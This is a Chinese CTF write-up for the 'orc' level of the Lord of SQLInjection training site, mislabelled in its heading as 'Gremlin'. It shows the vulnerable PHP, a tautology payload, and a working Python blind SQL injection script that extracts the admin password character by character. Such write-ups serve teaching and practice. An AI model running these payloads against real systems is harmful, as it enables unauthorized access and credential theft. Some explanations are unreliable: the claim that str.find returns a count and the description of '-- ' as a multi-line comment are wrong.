 ```yaml
---
layout:     post
title:      WriteUp5
subtitle:   SQL注入
date:       2022-10-21
author:     Distiny
header-img: img/post-bg-mma-5.jpg
catalog: true
tags:
    - CTF
    - web安全
---
```


### 靶场：[LORD OF SQLINJECTION](https://los.rubiya.kr/)

#### 第四题 Gremlin

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

首先`pw='or '1'='1`,显示出Hello admin,成功注入

但是要达到最后的目的，需要`$result['pw'] == $_GET['pw']`,也就是说数据库查到的pw和我们提供pw要一样，那就意味着必须得想办法找到admin的密码。

**盲注**找密码啦，好处在于注入成功有反应，显示Hello admin，不用时间型盲注那么费事。

```
import requests

url = 'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
headers = {'Host': 'los.rubiya.kr',
'Connection': 'close',
'Pagma': 'no-cache',
'Cache-Control': 'no-cache',
'sec-ch-ua-platform': "Windows",
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36'}
cookies={'PHPSESSID':'ma87lcsq7gmnhc33h13j97b0kl'}
# 确定密码长度
for length in range(4,20):
    params = {'pw':f"'or length(pw)={length}-- "}
    response = requests.get(url, cookies=cookies, params=params)
    if(response.text.find("Hello admin")!=-1):
        print(f"length: {length}")
        break
#依次确定每个字符
pw = ""
for n in range (1,length+1):
    for code in range(48,123):
        params = {'pw':f"'or ascii(SUBSTR(pw,{n},1))={code}-- "}
        response = requests.get(url, cookies=cookies, params=params)
        print(params)
        if(response.text.find("Hello admin")!=-1):
            pw+=chr(code)
            print(f"pw: {pw}")
            break
```

用到的函数：

```sql
SUBSTR(str,n,m)	#截取str从n开始的m位

ASCII(chr)		#返回字符的ascii码值，如果是string，则返回第一个字符的ascii码值
```

Python函数：

```
[str].find(str1)	#返回在str中str1出现的次数，如果没有出现，返回-1
```



> tip：在这道题里面，想把后面内容注释掉，使用#发现不成功，暂时不知道什么原因，可能是php优化了这一点？
>
> 可以换用sql的多行注释[-- ]
>
> 注意减号后面有个空格，如果在浏览器里面不好输入，空格可以写成+
